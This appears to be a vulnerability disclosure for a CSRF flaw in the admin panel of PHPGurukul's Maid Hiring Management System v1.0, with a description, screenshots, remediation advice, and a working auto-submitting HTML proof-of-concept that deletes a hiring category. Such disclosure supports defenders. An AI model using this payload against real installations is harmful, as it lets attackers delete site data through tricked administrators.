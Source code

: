 **Project Name & Repo URL:**
[Maid Hiring Management System using PHP and MySQL](https://phpgurukul.com/maid-hiring-management-system-using-php-and-mysql/)

**Vulnerability Type:**
Client Side Request Forgery

**Affected Version(s):** v1.0

**💣Vulnerability Description:**
A Cross-Site Request Forgery (CSRF) vulnerability exists in the admin panel of PHPGurukul Hiring Management System, allowing an attacker to delete arbitrary hiring categories by tricking an authenticated admin into visiting a malicious site. This can lead to data deletion and unauthorized admin-level changes.

**👩‍💻Impact:**
Unauthorized category deletion.

**🛜Proof-of-Concept (PoC):**

1) There was a category delete functionality where only authenticated admin can delete category.
![1](https://github.com/user-attachments/assets/e89bd4f0-7e18-4160-a021-52782d46316a)
2) HTML code to send GET request to the endpoint `/admin/manage-category.php`
**CSRF-POC**
```
<html>
  <body>
    <form action="http://127.0.0.1/mhms/admin/manage-category.php">
      <input type="hidden" name="delid" value="13" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

3) Use the HTML code and craft a malicious URL.
![3](https://github.com/user-attachments/assets/53ce1a60-b26e-475e-8ea4-79dacbb18ab2)
4) After Admin clicks on the link, the category will be deleted.
![4](https://github.com/user-attachments/assets/20a44793-7785-4c3c-98ed-ea20a8649aa9)
![5](https://github.com/user-attachments/assets/f44af5f6-6f4c-44cb-8f47-72148378afcd)

**Recommendation:**
Implement of CSRF tokens in admin forms, enforce SameSite cookies, and validate request origin to prevent unauthorized actions.
